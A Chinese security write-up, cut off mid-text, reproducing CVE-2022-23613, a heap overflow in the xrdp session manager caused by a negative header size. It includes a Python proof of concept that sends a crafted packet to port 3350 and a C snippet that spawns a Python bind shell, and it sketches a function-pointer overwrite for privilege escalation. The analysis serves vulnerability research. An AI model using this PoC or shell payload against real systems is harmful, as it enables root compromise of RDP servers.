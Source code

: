 ```yaml
---
title: CVE-2022-23613复现与漏洞利用可能性尝试
url: https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458479751&idx=2&sn=d8815a87725c397271c5d6ee9447a1e0&chksm=b18e5c0d86f9d51b5b87bdfbb7a895e5f5887457e614f23379d8e09755492f7fd1c743ce22d9&scene=58&subscene=0#rd
source: 看雪学院
date: 2022-10-29
fetch_date: 2025-10-03T21:14:12.422797
---
```


# CVE-2022-23613复现与漏洞利用可能性尝试

![cover_image](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8HpIfmoah1dOUIuxHB8sibPRKAWicbibo5HCKQNOdBEu9fnkz9hwsgN4X3akqNibQW1AHiagP8OiaKPcGcg/0?wx_fmt=jpeg)

# CVE-2022-23613复现与漏洞利用可能性尝试

Tokameine

看雪学苑

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8HpIfmoah1dOUIuxHB8sibPR8AFoOz7hDMC0gpVFJBQTJKxClPd7ic5aQMvQsFvb1zbn5SvaWA5u3tQ/640?wx_fmt=jpeg)

本文为看雪论坛精华文章

看雪论坛作者ID：Tokameine

因为很少做过真实场景下的漏洞复现，深感自己知识的浅薄，恰巧团里的师傅发了个洞，让我看看怎么利用，因此顺便做一个简陋的分析吧。

漏洞编号为 CVE-2022-23613，现已公开了相关信息。该漏洞作为一个运行在 root 权限下的 RDP 服务，由于该漏洞最终能够导致任意代码执行，因此笔者打算以提权作为最终的利用目标。

##

## 若本文存在任何纰漏，请务必与我联系，我会尽快修正本文内容。

##

##

```
一

复现环境
```

```
xrdp-sesman 0.9.18  The xrdp session manager  Copyright (C) 2004-2020 Jay Sorg, Neutrino Labs, and all contributors.  See https://github.com/neutrinolabs/xrdp for more information.
```

该项目的开源地址：*https://github.com/neutrinolabs/xrdp*

##

##

```
二

漏洞成因
```

```
static intsesman_data_in(struct trans *self){+ #define HEADER_SIZE 8    int version;    int size;     if (self->extra_flags == 0)    {        in_uint32_be(self->in_s, version);        in_uint32_be(self->in_s, size);-        if (size > self->in_s->size)+        if (size < HEADER_SIZE || size > self->in_s->size)        {-            LOG(LOG_LEVEL_ERROR, "sesman_data_in: bad message size");+            LOG(LOG_LEVEL_ERROR, "sesman_data_in: bad message size %d", size);            return 1;        }        self->header_size = size;@@ -302,11 +303,12 @@ sesman_data_in(struct trans *self)            return 1;        }        /* reset for next message */-        self->header_size = 8;+        self->header_size = HEADER_SIZE;        self->extra_flags = 0;        init_stream(self->in_s, 0); /* Reset input stream pointers */    }    return 0;+ #undef HEADER_SIZE} /******************************************************************************/
```

从已公开的 Patch 可以看出，它添加了一个对 size 变量的负数校验，似乎意味着整数溢出漏洞的存在，不妨跟踪一下该变量。

```
else /* connected server or client (2 or 3) */{    if (self->si != 0 && self->si->source[self->my_source] > MAX_SBYTES)    {    }    else if (self->trans_can_recv(self, self->sck, 0))    {        cur_source = XRDP_SOURCE_NONE;        if (self->si != 0)        {            cur_source = self->si->cur_source;            self->si->cur_source = self->my_source;        }        read_so_far = (int) (self->in_s->end - self->in_s->data);        to_read = self->header_size - read_so_far;         if (to_read > 0)        {            read_bytes = self->trans_recv(self, self->in_s->end, to_read);
```

查找 self->header\_size 的引用，可以发现该变量将与 self->trans\_recv 的参数间接相关，而该函数类似于 read 的作用，将 self 相关的套接字中读取 to\_read 个字符到 self->in\_s->end 。

而该缓冲区来自于：

```
struct trans *trans_create(int mode, int in_size, int out_size){    struct trans *self = (struct trans *) NULL;     self = (struct trans *) g_malloc(sizeof(struct trans), 1);     if (self != NULL)    {        make_stream(self->in_s);        init_stream(self->in_s, in_size);        make_stream(self->out_s);        init_stream(self->out_s, out_size);        self->mode = mode;        self->tls = 0;        /* assign tcp calls by default */        self->trans_recv = trans_tcp_recv;        self->trans_send = trans_tcp_send;        self->trans_can_recv = trans_tcp_can_recv;    }     return self;}
```

```
#define init_stream(s, v) do \    { \        if ((v) > (s)->size) \        { \            g_free((s)->data); \            (s)->data = (char*)g_malloc((v), 0); \            (s)->size = (v); \        } \        (s)->p = (s)->data; \        (s)->end = (s)->data; \        (s)->next_packet = 0; \    } while (0)
```

可以看见，该缓冲区会通过 g\_malloc 创建在堆上，那么只要 to\_read 的值超出了堆的原始大小，就有可能造成堆溢出了：

```
g_list_trans = trans_create(TRANS_MODE_TCP, 8192, 8192);
```

从调用点也可以看出，每次建立一个新的连接时都会为该连接创建一个大小为 0x2000 的输入缓冲区，并且接下来将会调用 trans\_check\_wait\_objs ：

```
inttrans_check_wait_objs(struct trans *self){    ......    if (self->type1 == TRANS_TYPE_LISTENER) /* listening */    {        ......    }    else /* connected server or client (2 or 3) */    {        if (self->si != 0 && self->si->source[self->my_source] > MAX_SBYTES)        {        }        else if (self->trans_can_recv(self, self->sck, 0))        {            cur_source = XRDP_SOURCE_NONE;            if (self->si != 0)            {                cur_source = self->si->cur_source;                self->si->cur_source = self->my_source;            }            read_so_far = (int) (self->in_s->end - self->in_s->data);            to_read = self->header_size - read_so_far;             if (to_read > 0)            {                read_bytes = self->trans_recv(self, self->in_s->end, to_read);                ......            }        ......    }     return rv;}
```

如果创建的类型不为 TRANS\_TYPE\_LISTENER ，那么该连接就会调用 self->trans\_recv 将数据直接读进刚刚创建的输入缓冲区中，且由于它并没有校验 self->header\_size 可能是负数的情况，因此可以令 to\_read 通过负数减去一个正数溢出为一个极大的正数，从而导致堆溢出。

POC：

```
import socketimport structif __name__ == "__main__":    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)    s.connect(("127.0.0.1",3350))    sdata = b''    sdata += struct.pack("I",0x2222CCCC) #version    sdata += struct.pack(">I",0x80000000) #headersize    s.send(sdata)    sdata = b'a'*0x10000  #padding    s.send(sdata)
```

##

##

```
三

漏洞利用
```

回顾一下刚刚的 trans\_create 可以发现：

```
struct trans *trans_create(int mode, int in_size, int out_size){    struct trans *self = (struct trans *) NULL;     self = (struct trans *) g_malloc(sizeof(struct trans), 1);    ......        self->trans_recv = trans_tcp_recv;        self->trans_send = trans_tcp_send;        self->trans_can_recv = trans_tcp_can_recv;    return self;}
```

struct trans self 结构体与输入输出缓冲区同样位于堆内存中，并且它还初始化了函数指针，那么一个可行的利用点就是：通过堆溢出去覆盖 self->trans\_recv 偏移处的值为一个类似 system 的函数来进行任意命令执行。

通过 IDA 搜索可以找到如下两个函数：

```
extern:00000000004105D8                 extrn g_execvp:nearextern:0000000000410658                 extrn g_execlp3:near
```

这两个命令分别是 execvp 和 execlp 的包装，函数实现如下：

```
intg_execvp(const char *p1, char *args[]){    ......    args_len = 0;    while (args[args_len] != NULL)    {        args_len++;    }    g_strnjoin(args_str, ARGS_STR_LEN, " ", (const char **) args, args_len);     g_rm_temp_dir();    rv = execvp(p1, args);    ......} intg_execlp3(const char *a1, const char *a2, const char *a3){    ......    g_strnjoin(args_str, ARGS_STR_LEN, " ", args, 2);    ......    g_rm_temp_dir();    rv = execlp(a1, a2, a3, (void *)0);    ......}
```

因为 xrdp 服务是通过 socket 进行通信的，因此让其打开 “/bin/sh” 是不够的，想要让它能够完成任意命令执行，最好还是让它反弹一个 shell 出来比较合适，比方说：

```
#include<stdlib.h>int main(){    char ars2[]="-cimport socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind((\"\",10000));s.listen();c,_=s.accept();f=c.fileno();os.dup2(f,0);os.dup2(f,1);os.dup2(f,2);os.system(\"sh\");";    execlp("python3","python3",ars2,0);    return 0;}
```

这个格式就比较像 g\_execlp3 的实现了对吗？看起来似乎相当可行，但是笔者在经过各种各样的尝试以后放弃了这个做法，因为精准的控制参数是一件极其困难的事情。

###

### 参数控制的难点

```
read_bytes = self->trans_recv(self, self->in_s->end, to_read);
```

假设我们令 self->trans\_recv 为 g\_execlp3 ，那么我们就需要令 self 指向 “python3”，self->in\_s->end 也是一个指向 “python3” 字符串的指针，以及 to\_read 必须为一个指向参数的指针。

通过 IDA 搜索二进制程序中的字符串可以发现，唯一一个或许能用的字符串只有 "/bin/sh"，因此所有的参数字符串都需要我们一起放在 payload 中输入到内存里去才行。

但是有与常规的 CTF PWN 题不同的是，用户通过 socket 进行交互，泄露地址是一件比较麻烦的事情，大部分情况下甚至连回显都拿不到，更何况就算有办法拿到回显，泄露地址的参数也仍然需要控制，因此又要绕回到这个问题上，因此只好考虑如何在无地址的情况下完成利用。

###

### 覆盖结构体的细节

```
struct trans{    tbus sck; /* socket handle */    int mode; /* 1 tcp, 2 unix socket, 3 vsock */    int status;    int type1; /* 1 listener 2 server 3 client */    ttrans_data_in trans_data_in;    ttrans_conn_in trans_conn_in;    void *callback_data;    int header_size;    struct stream *in_s;    struct stream *out_s;    char *listen_filename;    tis_term is_term; /* used to test for exit */    struct stream *wait_s;    char addr[256];    char port[256];    int no_stream_init_on_data_in;    int extra_flags; /* user defined */    struct ssl_tls *tls;    const char *ssl_protocol; /* e.g. TLSv1, TLSv1.1, TLSv1.2, unknown */    const char *cipher_name;  /* e.g. AES256-GCM-SHA384 */    trans_re...
